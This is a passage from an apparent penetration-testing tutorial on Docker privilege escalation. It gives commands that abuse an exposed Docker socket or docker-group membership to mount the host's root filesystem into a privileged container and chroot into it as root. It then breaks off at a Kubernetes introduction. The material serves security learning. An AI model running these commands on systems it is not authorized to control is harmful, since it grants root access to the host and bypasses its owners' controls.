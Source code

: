 At the core of the Docker architecture lies a client-server model, where we have two primary components:
- The Docker daemon
- The Docker client

### Docker Privilege Escalation**

**Docker Shared Directories**

When using Docker, shared directories (volume mounts) can bridge the gap between the host system and the container's filesystem. With shared directories, specific directories or files on the host system can be made accessible within the container. This is incredibly useful for persisting data, sharing code, and facilitating collaboration between development environments and Docker containers.

**Docker Sockets**

A Docker socket or Docker daemon socket is a special file that allows us and processes to communicate with the Docker daemon. This communication occurs either through a Unix socket or a network socket, depending on the configuration of our Docker setup. It acts as a bridge, facilitating communication between the Docker client and the Docker daemon. When we issue a command through the Docker CLI, the Docker client sends the command to the Docker socket, and the Docker daemon, in turn, processes the command and carries out the requested actions.

````
$ ls -al
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock

$ docker -H unix:///app/docker.sock ps
````
We can create our own Docker container that maps the host’s root directory (/) to the /hostsystem directory on the container. With this, we will get full access to the host system. 
````
$ docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem <image_created>
$ docker -H unix:///app/docker.sock ps
$ docker -H unix:///app/docker.sock exec -it <ID_New_Image> /bin/bash
````

**Docker Group**

````
$ id
uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
````
Alternatively, Docker may have SUID set, or we are in the Sudoers file, which permits us to run docker as root. All three options allow us to work with Docker to escalate our privileges.
````
$ docker image ls
$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it <Repository> chroot /mnt bash
````

## Kubernetes

Kubernetes, also known as K8s, stands out as a revolutionary technology that has had a significant impact on the software development landscape. This platform has completely transformed the process of deploying and managing applications, providing a more efficient and streamlined approach. Offering an open-source architecture, Kubernetes has been specifically designed to facilitate faster and more straightforward deployment, scaling, and management of application containers.
